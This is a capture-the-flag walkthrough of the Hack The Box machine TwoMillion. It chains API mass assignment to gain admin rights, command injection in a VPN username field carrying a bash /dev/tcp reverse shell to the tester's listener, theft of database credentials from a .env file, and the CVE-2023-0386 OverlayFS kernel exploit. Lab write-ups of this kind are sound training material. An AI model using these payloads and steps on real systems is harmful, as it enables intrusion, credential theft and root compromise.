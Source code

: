 # TwoMillion

# Recon

## Port Scan

`nmap -sVC -A -T4 -oN nmap 10.10.11.221`

![Untitled](images/Untitled.png)

On the bottom of the scan we see this domain

![Untitled](images/Untitled%201.png)

So add it to hosts file

`echo -e "10.10.11.221\t2million.htb" >> /etc/hosts`

![Untitled](images/Untitled%202.png)

## Web

### Directory Discovery

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://2million.htb/FUZZ -t 10 -fl 8`

![Untitled](images/Untitled%203.png)

We need the Invitation code to Register maybe its on the API

### API Recon

`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u [http://2million.htb/api/FUZZ](http://2million.htb/api/FUZZ) -t 10 -fl 8`

![Untitled](images/Untitled%204.png)

**Kite Runner**

`kr scan [http://2million.htb/api/v1](http://2million.htb/api/v1) -w /opt/kiterunner-1.0.2/routes/routes-small.kite -x 10`

![Untitled](images/Untitled%205.png)

Inside this JS file was a obfuscated code about making the invitation code

![Untitled](images/Untitled%206.png)

After deobfuscate the code we found this endpoint

![Untitled](images/Untitled%207.png)

Make a `POST` request to it

![Untitled](images/Untitled%208.png)

Decoding the code

![Untitled](images/Untitled%209.png)

`NFZQMTUtSTJEVEYtRDdERUMtVFVOSVo=`

`4VP15-I2DTF-D7DEC-TUNIZ`

Now register an account and use the decoded invitation code

![Untitled](images/Untitled%2010.png)

### Web page

After login we get this page

![Untitled](images/Untitled%2011.png)

After messing around with the application i came back to `http://2million.htb/api/v1` as we are logged in we could read the endpoints there

`curl http://2million.htb/api/v1 -H "Cookie: PHPSESSID=3o4gkl8vcg91lcbo35kml40g3c" | jq .`

Some admin endpoints

![Untitled](images/Untitled%2012.png)

Just try use the endpoint

`curl -X PUT [http://2million.htb/api/v1/admin/settings/update](http://2million.htb/api/v1/admin/settings/update) -H "Cookie: PHPSESSID=3o4gkl8vcg91lcbo35kml40g3c" | jq .`

![Untitled](images/Untitled%2013.png)

Found that we can put `json` content type

`curl -X PUT [http://2million.htb/api/v1/admin/settings/update](http://2million.htb/api/v1/admin/settings/update) -H "Cookie: PHPSESSID=3o4gkl8vcg91lcbo35kml40g3c" -H "Content-Type: application/json" | jq .`

![Untitled](images/Untitled%2014.png)

We put our test email address

`curl -X PUT http://2million.htb/api/v1/admin/settings/update -H "Cookie: PHPSESSID=3o4gkl8vcg91lcbo35kml40g3c" -H "Content-Type: application/json" -d '{"email":"test@test.com"}'| jq .`

![Untitled](images/Untitled%2015.png)

And here we set the flag admin to 1

`curl -X PUT [http://2million.htb/api/v1/admin/settings/update](http://2million.htb/api/v1/admin/settings/update) -H "Cookie: PHPSESSID=3o4gkl8vcg91lcbo35kml40g3c" -H "Content-Type: application/json" -d '{"[email":"test@test.com](mailto:email%22:%22test@test.com)","is_admin":1}'| jq .`

![Untitled](images/Untitled%2016.png)

Now we can use the endpoint we found earlier to check if we are admin

`curl -X GET [http://2million.htb/api/v1/admin/auth](http://2million.htb/api/v1/admin/auth) -H "Cookie: PHPSESSID=3o4gkl8vcg91lcbo35kml40g3c" | jq .`

![Untitled](images/Untitled%2017.png)

Just make the request to `/api/v1/admin/vpn/generate` , set the content type to application/json and now set the username

![Untitled](images/Untitled%2018.png)

We can verify that the server isn’t checking for our user so any input it will validate, maybe its running bash to give us a VPN

By running `$(sleep 3)` as the username the app will take longer to load, it means we got command injection

$(sleep 3)

![Untitled](images/Untitled%2019.png)

Open a netcat listener

`nc -lvnp 9999`

![Untitled](images/Untitled%2020.png)

Now send a reverse shell

`$(bash -c 'bash -i >& /dev/tcp/10.10.14.15/9999 0>&1')`

![Untitled](images/Untitled%2021.png)

And we got the connection

![Untitled](images/Untitled%2022.png)

## Privilege escalation

### SQL Credentials

On the Index.php they use envVariables and there was a file named as `.env`

![Untitled](images/Untitled%2023.png)

Found the DB credentials

`cat .env`

![Untitled](images/Untitled%2024.png)

`admin`

`SuperDuperPass123`

Now just ssh into the admin user

`ssh admin@2million.htb`

**First flag**

![Untitled](images/Untitled%2025.png)

Dump the Database

`mysql -u admin -p`

![Untitled](images/Untitled%2026.png)

Found 2 admins

![Untitled](images/Untitled%2027.png)

After some time found some email

`cat /var/mail/admin`

![Untitled](images/Untitled%2028.png)

It seems there is a Kernel exploit `OverlayFS / FUSE`  , i used the exploit from this github [https://github.com/sxlmnwb/CVE-2023-0386](https://github.com/sxlmnwb/CVE-2023-0386)

After downloading the repository send it to the victim machine

Run the command make 

Now open two shells

On the first one run this code

`./fuse ./ovlcap/lower ./gc`

![Untitled](images/Untitled%2029.png)

On the second shell run this

`./exp`

![Untitled](images/Untitled%2030.png)
